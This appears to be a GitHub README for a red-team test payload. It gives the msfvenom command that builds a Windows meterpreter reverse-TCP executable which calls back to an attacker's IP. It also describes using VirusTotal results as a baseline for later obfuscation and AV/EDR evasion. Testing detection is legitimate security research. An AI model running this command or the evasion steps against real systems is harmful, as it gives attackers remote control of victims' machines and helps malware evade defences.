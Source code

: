 ### README.md

# Payload Generated with Msfvenom

This directory contains a payloads generated using the `msfvenom` tool, which is widely used for creating and testing malicious payloads in controlled environments. The payload included here serves as a baseline for analyzing antivirus (AV) and Endpoint Detection and Response (EDR) detection capabilities.

---

## File Details

### `Payload1.exe`
- **Description**: A reverse TCP payload designed for testing AV and EDR detection.
- **Architecture**: 64-bit Windows
- **Type**: Executable (`.exe`)
- **Purpose**: Baseline analysis of detection by antivirus solutions before applying advanced obfuscation or evasion techniques.

---

## Generation Command

The payload was created using the following `msfvenom` command:

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<Your_IP> LPORT=<Your_Port> -f exe -o Payload1.exe
```

Replace `<Your_IP>` with the attacker's IP address and `<Your_Port>` with the desired port for the reverse connection.

---

## Detection Analysis

The payload was uploaded to VirusTotal to evaluate detection rates across various antivirus engines. The results are used as a baseline to identify opportunities for improving stealth through encoding, obfuscation, and other evasion techniques.

---

## Legal Notice

- **For Educational and Research Purposes Only**: This payload is strictly intended for testing in isolated environments such as virtual machines or lab setups.
- **Prohibited Usage**: Unauthorized use or deployment on live systems or production environments is against the law and organizational policies.
- **Responsibility Disclaimer**: The creator assumes no liability for misuse of the provided tools or files.
